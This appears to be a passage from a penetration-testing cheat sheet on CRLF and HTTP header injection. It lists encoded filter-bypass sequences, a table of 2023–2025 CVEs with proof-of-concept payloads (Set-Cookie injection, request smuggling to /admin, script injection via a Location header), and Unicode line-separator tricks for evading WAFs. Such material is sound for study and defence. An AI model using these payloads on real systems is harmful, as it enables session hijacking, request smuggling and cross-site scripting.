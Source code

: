 ```

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
```
### Recent Vulnerabilities (2023 – 2025)

The last few years have produced several high-impact CRLF/HTTP header-injection bugs in widely-used server- and client-side components. Reproducing and studying them locally is an excellent way of understanding real-world exploitation patterns.

| Year | Component | CVE / Advisory | Root cause | PoC highlight |
|------|-----------|---------------|------------|---------------|
| 2024 | RestSharp (≥110.0.0 <110.2.0) | **CVE-2024-45302** | The `AddHeader()` helper did not sanitize CR/LF, allowing construction of multiple request headers when RestSharp is used as an HTTP client inside back-end services. Down-stream systems could be coerced into SSRF or request smuggling. | `client.AddHeader("X-Foo","bar%0d%0aHost:evil")` |
| 2024 | Refit (≤ 7.2.101) | **CVE-2024-51501** | Header attributes on interface methods were copied verbatim into the request. By embedding `%0d%0a`, attackers could add arbitrary headers or even a second request when Refit was used by server-side worker jobs. | `[Headers("X: a%0d%0aContent-Length:0%0d%0a%0d%0aGET /admin HTTP/1.1")]` |
| 2023 | Apache APISIX Dashboard | **GHSA-4h3j-f5x9-r6x3** | User-supplied `redirect` parameter was echoed into a `Location:` header without encoding, enabling open redirect + cache poisoning. | `/login?redirect=%0d%0aContent-Type:text/html%0d%0a%0d%0a<script>alert(1)</script>` |

These bugs are important because they are triggered **inside application-level code** and not only at the web-server edge. Any internal component that performs HTTP requests or sets response headers must therefore enforce CR/LF filtering.

### Advanced Unicode / Control-Character Bypasses

Modern WAF/rewriter stacks often strip literal `\r`/`\n` but forget about other characters that many back-ends treat as line terminators. When CRLF is filtered, try:

* `%E2%80%A8` (`U+2028` – LINE SEPARATOR)
* `%E2%80%A9` (`U+2029` – PARAGRAPH SEPARATOR)
* `%C2%85`  (`U+0085` – NEXT LINE)

Some Java, Python and Go frameworks convert these to `\n` during header parsing (see the 2023 Praetorian research). Combine them with classic payloads:

```
/%0A%E2%80%A8Set-Cookie:%20admin=true
```
```
If the filter normalises UTF-8 first, the control character is turned into a regular line-feed and the injected header is accepted.
